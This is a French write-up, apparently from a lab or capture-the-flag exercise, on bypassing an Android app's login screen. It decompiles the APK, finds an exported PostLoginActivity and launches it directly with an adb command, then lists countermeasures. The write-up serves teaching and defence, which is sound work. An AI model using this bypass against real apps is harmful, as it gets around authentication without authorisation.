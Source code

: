 ## Solution

La première étape ici consiste à récupérer les activités de l'application ainsi que l'identifiant de cette dernière. Pour se faire, on décompile l'application pour lire le manifeste.

```sh
$ apktool d vulnerableactivitycomponents.apk
$ cd vulnerableactivitycomponents
$ cat AndroidManifest.xml
```

Dans le manifeste, on remarque 2 activités : LoginActivity et PostLoginActivity. La première possède une action MAIN et une categorie LAUNCHER, il s'agit donc de la page qui apparaît au lancement de l'application et qui possède le formulaire à contourner. On remarque cependant l'activité PostLoginActivity qui, d'après le nom, serait l'activité lancée après autentification. De plus, elle possède le paramètre *exported="true"* ce qui signifie qu'elle est manipulable hors du contexte de l'application.

```XML
<activity android:name=".PostLoginActivity" android:exported="true"></activity>
<activity android:name=".LoginActivity">
	<intent-filter>
		<action android:name="android.intent.action.MAIN" />
		<category android:name="android.intent.category.LAUNCHER" />
	</intent-filter>
</activity>
```

On peut alors utiliser ADB pour lancer l'application sur son mobile (après installation) :

```sh
$ adb shell am start -n com.example.vulnerableactivitycomponents/.PostLoginActivity
```

Et voilà, l'activité apparait sans rien entrer dans le formulaire.


## Contre-mesures

Le plus évident serait de ne pas exporter publiquement des activités, surtout si elles sont bloqués derrière un formulaire. Si vous avez vraiment besoin d'exporter une activité, il faudrait vérifier qui l'a lancée et/ou vérifier si la personne est autentification sur l'application au lancement de l'activité.


